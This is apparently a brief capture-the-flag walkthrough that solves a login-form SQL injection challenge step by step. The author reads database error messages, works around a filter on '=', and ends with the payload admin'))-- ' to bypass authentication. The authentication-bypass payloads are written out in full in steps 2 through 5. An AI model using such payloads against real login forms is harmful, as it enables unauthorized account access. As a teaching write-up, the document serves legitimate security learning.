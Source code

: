 1. try:username:`admin'` and password:123

* something like this:ERROR: `syntax error at or near "40" LINE 1: ...ers WHERE (username = ('admin'') AND password = ('40bd001563... ^`
e,,,nothing.

2. try it again:`admin' or '1'='1` and password:`123`

* get this:`Illegal characters detected.It like that '=' is illegal`.So,let's try again!

3. keep try:`admin' or 1` and password:`123`

* get this:ERROR: `syntax error at or near "') AND password = ('" LINE 1: ...LECT * FROM users WHERE (username = ('admin' or 1 ') AND pas... ^`

* Oh,that's amazing!Look at this:`"AND password = ('" LINE 1: ...LECT * FROM users WHERE (username = ('admin' or 1 ') AND pas...^"`.So, let's defeat it!

4. try:username:`admin')-- '` and password:`123`

* e,,,wrong?Long time passed! All right,there need double ')'.OK,let's try it again!

5. try:username:`admin'))-- '` and password:`123`

* Nice Job!Get the Flag.
